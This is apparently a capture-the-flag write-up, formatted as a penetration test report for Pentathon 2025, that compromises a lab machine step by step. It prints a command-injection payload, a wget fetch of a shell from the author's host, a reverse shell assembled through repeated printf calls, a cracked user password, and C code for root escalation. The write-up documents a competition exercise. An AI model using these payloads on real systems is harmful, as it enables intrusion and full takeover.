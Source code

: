 <p align="center">NCIIPC-AICTE

<p align="center">Pentathon 2025

  

<p align="center">Vulnerability Assessment and Penetration Test Report

  

<p align="center">May 03, 2025

<p align="center">Name: Jay Shah

<p align="center">jayshah-551-SLI13</p>




Got the IP via netdiscover-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd_uLVhB5HNYam-Ua2O9A6zxzshyemjfbkA10Rhgzy4noyxrNABy9EPtFcK6QvUPq_NpEWqGn4xbbGTdP-XMP8JmpwJBgjB5ZoP4b1rhTGG6PBDzK1JpYoNxH641px0uAdgjBga4Q?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Upon running an nmap scan, we get the following results -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc_hDpu7vrhhPTzIeijdrafUs3vwbCHIcuQc931B4SN4mLvpDI9GhI8qpsyFkq0hwHGk_qyres9rxvrCCtpWOHYLA8iM3mtX4fqGd6CmsqfC0yA25m7eKOWZ_CNiL6FTsBpr7YORA?key=DDFu3ZnUe63PYT0gtvO9EkZq)

On the web server, we see this -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf60H18MAFB_fYzXRACl-vCDfIm_CVh9MIbZBIgUzYLfV2j2ZrldXGH1HewghvW5tKhd3aamTnTaPLMXfbgj_izPYICqpVE5TGrQ48elUC1Ay9sz9HMXahHNwzSBxpvE1pAjzm8bQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Which conveniently tells us that it is a command injection vulnerability and needs to be under 32 characters.

After some testing, we have a PoC - t; id; t

Which reveals -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZJ2aBZTwx7Q0Ur4JONgVhmFEGe4c-8ca0WmBGzE7w6zbvtKqt-fo5ATp9k1oOHrgB1dxJ4LKZ86NsPARR08V7CbXpp9UnwEG-wmWqEV_-PBUfDydqbEf6v_X-1qCP16p7N9ui?key=DDFu3ZnUe63PYT0gtvO9EkZq)

We are in /var/www/html so it should be easy to upload a shell payload by hosting it on my machine given the 32 character file limit.  
  
Upon entering this payload -

t; wget 192.168.230.132/shell; t  
  
We see the following get request made indicating it was successful-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcTe7mTQyn67sMFNUHC-BU0v4qVeYBUqPBNLG9nOf1koboTnHYxbzulCYC9VubJTRKSiv-wb9Gzr8kLj7rG7zextmq1KLLQXMrZKJAJHklm8AYLRuMfBnpP7plcUJTYF1sIcv94?key=DDFu3ZnUe63PYT0gtvO9EkZq)

After this, it took quite a while since we are only able to write at /tmp destination. So with the limited number of characters I created the payload piece by piece as follows -

t;printf 'bash -i'>>/tmp/x;t

t;printf ' >& /de'>>/tmp/x;t

t;printf 'v/tcp/1'>>/tmp/x;t

t;printf '92.168.'>>/tmp/x;t

t;printf '230.132/49 '>>/tmp/x;t

t;printf '0>&1'>>/tmp/x;t

t;sh /tmp/x;t

And since sh here -

t;sh /tmp/x;t

 did not work, I used bash, and got the webshell -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdATbgwErSEi9frSq3cOZ4cOucnBqi29YmX3ETonjg1pAk_-2sjH50hGaUFeQZen08ANNKjrYYFQPy9E-_kvA5o31yk9-ZDniYLjz03fo77PLCshsjbvBm22AKWAa0223C-g3ZDqA?key=DDFu3ZnUe63PYT0gtvO9EkZq)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfG-ANDpaoz666GaRJWkQtWyC0OeaGdEvS370cUdvNzNGVjNFRUuqKY2iChWUUgLcivYP7D509MEXquXVxEz5ooix802LE9n_9V2N8GWl4Di1xXsOe1UgRYq93MXZRaSd1ueA-9Nw?key=DDFu3ZnUe63PYT0gtvO9EkZq)

And after traversing, we get the user flag -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcWX7TaSgIq1HU7zXcjI4bsjddubp96UnWRkWnSivm_pR4RIapAzYqNOg8Jvdu7pk-m1hXPIkgt3KtgWHUjhcvsbdZssOMNmiUIA6nEZ6ktNbNlrHranbvz2YqvM57kn05xN8DATQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Had also seen a passfile in /var/www -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf3gnnFRqz1w0ZoFz8wgR3sd6zbSXwW9eX8VuCTxDUkjFkoNbAyJ-wupuEXt0j7Izbiz--GqFOIjQDOEvzG2IALzQwBfGPseLgO_k-j7T2y6JAWVnSrfCegT0tvdD8R3SQ0xZQ0CQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

After trying some online decrypters for a while I switched to classic john and got the decrypted password for pumba user -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3-yof7BEAcQh5TQlJb30xMKBqP0dLIL55FAkYGiVldySjprkSfdVFjb5SvHPeNC98D8w1yzvnE6p0JBo7_Duz1ECIQM86O1NtXsqAIwN_4cljZaRc20YBvXd9-KIYikRv4RC0EQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Username- pumba

Password - m33andshaiza

Now we ssh into it as pumba -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfqMOad8DQV9XM8fVnTBWGHGWAT8wdY7Oy7biNBfUoe9tCAI__usG2J67y_54LbjgWSFOx6t-o0byEs5roS5lqqAEl1JiUM4rDBDE-pwbeAFabBs4trZ25qJdcFRf1z3XnS-6RHCw?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Running linpeas.sh again  -

After looking for a while we struck gold -

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd7CRfFB9qI4bieN5RL_ILGrNsBeHvmNvVdJvyHoh0KLPsqHd1xuTfg_b-jM2a2DM1lNmeWmEAWi-HbFguA31KLHjcs1CFvG8H_WaZVz3HW3-J9XtBk92dbIuqV3cQ9riEaQ7hv?key=DDFu3ZnUe63PYT0gtvO9EkZq)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfGs3pxY5hFUUj-x8wN1bC6WeUZ0j4M3hw41-mRWdd6pm_J_UHr3igqJj-BHWWAqpYxSPJ5PWBNwqfmqiWRAAtAL8kVlxnOsTNH24pWDFIP67j3YOtVgoM0_2hJ49JkBpV48hRB?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Rootme.c -

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

void \_init() {

setuid(0); setgid(0);

system("/bin/bash");

}

And done! We are root-

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJsYCQ0katTTEUNLIM7AwVusJ9qigMEyJxVCagLWE7-fsrEZiTzeXbQBlAbgvsHQTNo2s6rLIeuOlgB_JB4jNamhAVaEWjpkXhc1Uj5WkAKCUVaYR1rPds6gv3a7AqfPyNv0KelQ?key=DDFu3ZnUe63PYT0gtvO9EkZq)

Root flag listed.
